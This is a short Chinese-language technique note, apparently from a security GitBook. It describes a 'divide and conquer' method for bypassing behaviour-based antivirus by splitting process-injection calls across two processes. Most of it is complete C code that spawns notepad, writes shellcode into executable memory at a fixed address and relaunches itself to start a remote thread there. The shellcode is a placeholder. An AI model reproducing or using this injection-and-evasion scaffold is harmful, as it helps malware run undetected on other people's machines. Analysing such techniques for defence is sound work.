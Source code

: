 # Divide and Conquer

##  简介

看到了一种比较有意思的手法，现在的杀软会关注函数的执行链， [theevilbit](https://gist.github.com/theevilbit)公开了一种通过不同进程分离执行API，绕过基于行为的AV检测。

## 流程

1. 创建傀儡进程
2. 向傀儡进程写入payload
3. 创建同文件进程传入pid
4. 通过pid打开傀儡句柄
5. 创建远程线程

## 代码

```text


#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"\xfc78\x00";

int main(int argc, char* argv[]) {

    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);

        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwProcessId);

        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hProcess =  OpenProcess(PROCESS_ALL_ACCESS, NULL, atoi(argv[1]));
        CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)0x0000480000000000, 0, 0, 0);
    }
    
    
    return 0;
}

```

![](../.gitbook/assets/image%20%28241%29.png)

